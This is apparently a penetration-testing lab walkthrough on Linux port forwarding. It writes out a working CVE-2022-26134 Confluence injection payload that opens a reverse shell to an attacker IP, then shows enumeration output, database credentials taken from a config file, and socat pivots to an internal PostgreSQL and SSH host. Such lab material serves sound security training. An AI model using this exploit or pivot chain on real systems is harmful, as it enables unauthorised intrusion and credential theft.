 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Port Foward

Port forwarding is a technique where a host listens on one port and relays traffic to another destination. It’s commonly used for:

* Allowing access to internal services from external networks.
* Home routers directing specific traffic (e.g. gaming, remote access).
* Attackers bypassing segmentation by routing traffic through a compromised host (pivot point).

## Linux

In this scenario:

* **Attacker (Kali)**: On the WAN.
* **Target Web Server (**`CONFLUENCE01`**)**: Exposed to the WAN and connected to a DMZ.
* **Internal Database (**`PGDATABASE01`**)**: In DMZ, not directly reachable from Kali.

> _A **Wide Area Network (WAN)** represents a large or public network, while a **Demilitarized Zone (DMZ)** acts as a buffer zone between a less trusted network and internal systems. Since Kali can’t directly access the DMZ, we'll need to leverage `CONFLUENCE01`’s dual-network position to reach `PGDATABASE01`._

<figure><img src="../../.gitbook/assets/linux_port_forwarding_topology.png" alt=""><figcaption></figcaption></figure>

After exploiting a vulnerable Confluence instance (`CVE-2022-26134`) we gain a reverse shell on `CONFLUENCE01`. and enumerate its position on the network.

{% code overflow="wrap" %}
```bash
# payload from Kali
$ curl http://192.168.185.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.236/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# reverse shell on Kali
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.63] 55876
...
confluence@confluence01:/opt/atlassian/confluence/bin$ id
id
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)

# network interfaces
confluence@confluence01:/opt/atlassian/confluence/bin$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:54:46 brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.63/24 brd 192.168.50.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:5446/64 scope link 
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:c2:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.4.50.63/24 brd 10.4.50.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:c2c9/64 scope link 
       valid_lft forever preferred_lft forever

# routing information
confluence@confluence01:/opt/atlassian/confluence/bin$ ip route
ip route
default via 192.168.50.254 dev ens192 proto static 
10.4.50.0/24 dev ens224 proto kernel scope link src 10.4.50.63 
10.4.50.0/24 via 10.4.50.254 dev ens224 proto static
192.168.50.0/24 dev ens192 proto kernel scope link src 192.168.50.63
```
{% endcode %}

Deeper host enumeration reveals exposed database credentials and the target's internal IP address.

{% code overflow="wrap" %}
```bash
# configuration files
confluence@confluence01:/opt/atlassian/confluence/bin$ cat /var/atlassian/application-data/confluence/confluence.cfg.xml

...
    <property name="hibernate.connection.password">D@t4basePassw0rd!</property>
    <property name="hibernate.connection.url">jdbc:postgresql://10.4.50.215:5432/confluence</property>
    <property name="hibernate.connection.username">postgres</property>
... 
```
{% endcode %}

### Socat

Socat is a powerful command-line utility for bidirectional data transfer between two data channels. In this case, we use it to forward TCP connections from one network interface on a compromised host to a service on a different network that’s otherwise unreachable.

{% hint style="success" %}
**Recap**

1. We obtained a reverse shell on `CONFLUENCE01` and we can execute commands as the limited `confluence` user.
2. We identified that it has:
   1. A **WAN interface** (`192.168.50.63`) that our Kali machine can reach
   2. A **DMZ interface** (`10.4.50.63`) that can reach `PGDATABASE01` at `10.4.50.215:5432`
3. `CONFLUENCE01` does not have (and we can't install) the tools needed (e.g. `psql`) to access the database server on `PGDATABASE01`.&#x20;
{% endhint %}

Since we can’t install new software on `CONFLUENCE01` and `PGDATABASE01` isn’t accessible directly from our Kali machine, we can leverage `socat` to create a **TCP port forward**.

* **Listen** on a chosen TCP port (e.g., `2345`) on `CONFLUENCE01`’s WAN-facing interface.
* **Forward** any connections received on this port to `10.4.50.215:5432` on the DMZ side.

> _On `CONFLUENCE01`, we'll start a verbose (`-ddd`) Socat process. It will listen on TCP port `2345` (`TCP-LISTEN:2345`), fork into a new subprocess when it receives a connection (`fork`) instead of dying after a single connection, then forward all traffic it receives to TCP port `5432` on `PGDATABASE01` (`TCP:10.4.50.215:5432`)._

{% code overflow="wrap" %}
```bash
# from CONFLUENCE01
confluence@confluence01:/opt/atlassian/confluence/bin$ socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```
{% endcode %}

Once this forward is active:

1. From our Kali machine on the WAN, we connect to `192.168.50.63:2345`.
2. Socat relays this traffic internally from `CONFLUENCE01` to `10.4.50.215:5432`.
3. From our perspective, it’s as though the PostgreSQL service is directly accessible at `192.168.50.63:5433`.

```bash
# from Kali
$ psql -h 192.168.50.63 -p 2345 -U postgres
```

<figure><img src="../../.gitbook/assets/linux_port_forwarding_topology_socat.png" alt=""><figcaption></figcaption></figure>

After some more enumeration of the internal network, we'll find `PGDATABASE01` is also running an SSH server, so we can check for **password reuse**. We can kill the original Socat process listening on port `2345` and create a port forward on `CONFLUENCE01` that will allow us to SSH directly from our Kali machine to `PGDATABASE01`.

{% code overflow="wrap" %}
```bash
# from CONFLUENCE01
confluence@confluence01:/opt/atlassian/confluence/bin$ socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```
{% endcode %}

```bash
# from Kali
$ ssh database_admin@192.168.50.63 -p2222
...
database_admin@pgdatabase01:~$
```

<figure><img src="../../.gitbook/assets/linux_port_forwarding_topology_socat_ssh.png" alt=""><figcaption></figcaption></figure>
